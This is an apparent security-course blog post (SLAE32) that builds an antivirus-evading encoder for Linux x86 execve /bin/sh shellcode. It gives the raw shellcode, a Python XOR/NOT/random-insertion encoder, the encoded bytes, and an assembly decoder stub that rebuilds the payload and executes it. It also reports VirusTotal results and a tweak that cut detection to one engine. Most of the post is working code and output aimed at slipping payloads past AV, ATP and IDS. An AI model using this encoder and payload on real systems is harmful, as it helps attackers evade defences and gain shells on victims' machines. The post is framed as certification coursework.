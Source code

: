 ```yaml
---
layout: single
title: Shellcode Encoder for Linux x86
date: 2019-9-30
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Encoder
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
Well, let we make a recap of what we have done since now, we have build a [bind shell](https://bolonobolo.github.io/SLAE32-1/), a [reverse shell](https://bolonobolo.github.io/SLAE32-2/) and a [egghunter shellcode](https://bolonobolo.github.io/SLAE32-3/). A lots of nice stuff for hackers out there who want to test their skills, but it's a useless effort if we want to test this nice things in a real scenario where we can meet Antivirus, ATP or IDS systems. Fortunately, some techniques comes in our help.
In the SLAE course we have study some of this techniques and we appreciated them so much that we decided to use them all together adding a pinch of chaos.<br>
We started using the classic ```execve-stack``` shellcode
```hex
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
## Implementation
As said the idea is to use the techniques studied to inject chars inside the execve-stack shellcode. The explanation of the techniques is not in the purposes of this post.
If you want to deeply learn how shellcode encoders works you can search for insertion, XOR and NOT encoders. That said let's explain what we would implement here. 
Given that:
- the hexadecimal alphabet have the corrispective decimal range from 1 to 255 values
- the XOR with fixed char results can be avoided xoring the encoded char with the fixed char (A XOR B ) XOR B = A
- the NOT opertaion results can be avoided repeating the NOT operation on the encoded char
implementation of our encoder works like that:
1. Read each char of the shellcode
2. if the decimal value of the char is less of 128, XOR it with the 0xDD char
3. put a placeholder after the XOR encoded char
4. else NOT the char
5. put a different placeholder after the NOT encoded char
6. put a random char choosed in a range from 1 to 169
7. put the 0xaa char at the end indicates that our shellcode is finished
7. print the encoded shellcode

We wrote a python script to do that

## Encoder
```python
#!/usr/bin/python

# Python Encoder (XOR + NOT + Random)
import random
green = lambda text: '\033[0;32m' + text + '\033[0m'

shellcode = ("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encoded = ""

# The end char is 0xaa
end = "\\xaa"

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

        if x < 128:
                # XOR Encoding with 0xDD
                x = x^0xDD
                # placeholder for XOR is 0xbb
                encoded += '\\xbb'
                encoded += '\\x'
                encoded += '%02x' % x
        else:
                x = ~x
                encoded += '\\xcc'
                encoded += '\\x'
                encoded += '%02x' % (x & 0xff)

        encoded += '\\x%02x' % random.randint(1,169) # 0xaa is 170 in decimal and the others placeholders are > of 170

print green("Shellcode Len: %d" % len(bytearray(shellcode)))
print green("Encoded Shellcode Len: %d" % len(bytearray(encoded)))
encoded = encoded + end
print encoded
nasm = str(encoded).replace("\\x", ",0x")
nasm = nasm[1:]
# end string char is 0xaa
print green("NASM version:")
# end = end.replace("\\x", ",0x")
print nasm
```
running the script we obtain an obfuscated shellcode, much larger that than the original, but hey a small but full visible shellcode has no future.

```bash
root@slae32-lab:# ./encoder_mixer.py 
Encoded shellcode ...
Shellcode Len: 25
Encoded Shellcode Len: 300
\xbb\xec\x73\xcc\x3f\x9d\xbb\x8d\x51\xbb\xb5\x1b\xbb\xb3\x22\xbb\xf2\x79\xbb\xae\x8e\xbb\xb5\x61\xbb\xb5\x3d\xbb\xf2\x6e\xbb\xf2\x9f\xbb\xbf\x10\xbb\xb4\x89\xcc\x76\x2d\xcc\x1c\x2f\xbb\x8d\x91\xcc\x76\x7e\xcc\x1d\x92\xbb\x8e\x80\xcc\x76\x7b\xcc\x1e\xa7\xcc\x4f\x7f\xbb\xd6\x2b\xcc\x32\x24\xcc\x7f\x37\0xaa
NASM version:
0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
``` 
![](/assets/images/SLAE32/assignment_4/encoded_0.png)<br>

Well, now that we have the encoded shell we have to wrote an assembly decoder, the idea is very simple, the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char. So we need basically 3 functions
1. a decoder for the XOR encoded char
2. a decoder for the NOT encoded char
3. a switch that read the placeholder and call the right decoder
When we reach the end (char 0xaa) our shellcode is encoded, loaded in EDI and ready to be called

## Decoder
Let's move the assembly code
```nasm
global _start

section .text
_start:


        jmp short call_decoder


decoder:
        ; the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char
        pop esi
        lea edi, [esi]                  ; load the first placeholder char in edi
        xor eax, eax
        xor ebx, ebx

switch:

        mov bl, byte [esi + eax]        ; load the placeholder in EBX
        cmp bl, 0xaa                    ; compare it with the shellcode end character
        jz shellcode                    ; if whe reached the end jump to the shellcode
        cmp bl, 0xbb                    ; if the placeholder is 0xbb Zero Flag is set
        jz xordecode                    ; if ZF is set jump to XOR decoder
        jmp notdecode                   ; otherwise jump to NOT decoder

xordecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from where we are
        mov byte [edi], bl              ; load it in edi
        xor byte [edi], 0xDD            ; xoring char with 0xdd to obtain the original one
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

notdecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from we are
        mov byte [edi], bl              ; load it in edi
        not byte [edi]                  ; denot char
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

call_decoder:

        call decoder
        shellcode: db 0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
```
Now we can try it
![](/assets/images/SLAE32/assignment_4/encoder_1.gif)<br>
It works!
Let see what Virustotal thinks about our shellcode 
![](/assets/images/SLAE32/assignment_4/encoded_1.png)<br>
Well 11 AV detected our shellcode, not perfect but we can deceive ATP like FireEye and AV like F-Secure, Sophos and ClamAV. 
![](/assets/images/SLAE32/assignment_4/encoded_2.png)<br>
This is a prove our shellcode isn't encoded at best and the encoder itself can be improved but I think this is a good starting point.<br>
You can find this shellcode published on [Exploit-DB](https://www.exploit-db.com/shellcodes/47461)<br>

###### Update
Removing the word "Shellcode" from the script improve sensibly our power of obfuscation in Virustotal. In fact using this code to compile and execute the shellcode change positevly our results on scan.<br>
![](/assets/images/SLAE32/assignment_4/encoded_3.png)<br>
![](/assets/images/SLAE32/assignment_4/encoded_4.png)<br>
As you can see only MacAfee mark it as malicious.<br>
![](/assets/images/SLAE32/assignment_4/encoded_5.png)<br>
This is not an endpoint. To be sure our shellcode is really obfuscated we nee to test it on machines running IDS/ATP agents and/or AV. This is the best way to test our obfuscated shellcode, but is out of this post scope. I really appreciate if someone would test it in ojne or more of the cited environments, please fell free to contact me in this case. Thank you.<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>



